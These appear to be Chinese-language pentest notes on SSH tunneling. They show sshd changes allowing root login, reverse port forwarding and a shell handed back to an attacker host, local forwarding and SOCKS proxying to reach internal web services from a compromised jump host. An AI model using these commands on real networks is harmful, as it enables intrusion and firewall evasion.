

SSH隧道是一种通过安全外壳协议（SSH）在两个网络之间创建安全连接的技术。它允许用户通过一个安全的通道在两个主机之间传输数据，可以用于加密和保护数据，以及绕过网络限制和防火墙。
适用于Linux，一般都开启，linux防火墙一般都让ssh通过，适用于手工通信但无法上线。
```
开启ssh协议登录：
vi /etc/ssh/sshd_config
PermitRootLogin yes
PasswordAuthentication yes
/etc/init.d/ssh start
/etc/init.d/ssh restart
```



192.168.1.166跳板机，192.168.11.x:8080目标机的web服务。
```
跳板机：入站封，出站没封，用反弹端口
192.168.1.166跳板机上执行
ssh -CfNg -R 1234:192.168.11.x:8080 root@47.94.236.117
将目标机的8080端口服务，转发到公网机47.94.236.117:1234
输入公网机ssh的root密码 即公网机自动监听1234
此时公网攻击机本地的1234端口 访问就是 目标机的8080端口


跳板机：出站封，入站不封，用本地端口转发
192.168.1.166跳板机上执行
ssh -CfNg -L 1122:192.168.11.x:8080 root@192.168.1.166
将跳板机的1122端口监听目标机的8080端口
输入跳板机ssh的root密码 即跳板机自动监听1122端口
公网攻击机 直接访问 跳板机的1122端口 即是 目标机的8080端口


47.94.236.117上执行：
ssh -CfNg -L 80:192.168.11.x:80  root@192.168.1.166 -p 28299
内网192.168.11.x:80服务代理到本地的47.94.236.117:80上。
```


^
^
## **场景**
已知黑客主机C的IP：192.168.0.115
公网主机A unbantu：192.168.0.144 ，其内网IP：10.10.10.129，有一个web服务192.168.0.144/test.php
内网主机B：10.10.10.128 ，有一个web服务/test.php
已知已经获取了A的shell，现在要渗透获取B的shell。
^
## **出站被封**
**ssh隧道正向连接**：端口转发，A主机端口映射B主机端口
A主机执行命令：ssh -CNfL 0.0.0.0:7777:10.10.10.129:80 A主机用户名@127.0.0.1
输入A主机ssh用户名密码。
此时通过ssh监听本地端口7777，转发到内网主机80端口成功。
C主机访问192.168.0.144:7777即可访问内网主机web。 

^
## **入站被封**
**ssh隧道反向连接**：A主机反弹shell给C主机
A主机执行命令：ssh -qTfnN -R 2222:127.0.0.1:22 C主机用户名@192.168.0.115
输入C主机ssh用户名密码。
C主机再执行：ssh -p 2222 A主机用户名@127.0.0.1
输入A主机ssh用户名密码。
此时C主机的shell变成了A主机的。
访问curl 10.10.10.128即可访问内网主机web。
^

## **socks代理**
**ssh隧道socks代理**:
>SOCKS 是一种网络协议，用于在客户端和服务器之间进行通信。SOCKS 协议允许客户端在通过代理服务器转发数据时保持私密性。SOCKS 代理在客户端和目标服务器之间建立一个通道，并在通道两端之间传递数据。SOCKS 协议通常用于代理客户端的网络流量，以绕过网络限制、保护隐私或访问受限制的资源。


A主机执行命令：ssh -qTfnN -D 10086 C主机用户名@192.168.0.115
输入C主机ssh用户名密码。
此时C主机即可使用代理，192.168.0.144的10086。
如浏览器中设置代理，再访问10.10.10.128即可访问内网主机web。


47.94.236.117上执行：
ssh -CfNg -L 80:192.168.11.x:80  root@192.168.1.166 -p 28299
内网192.168.11.x:80服务代理到本地的47.94.236.117:80上。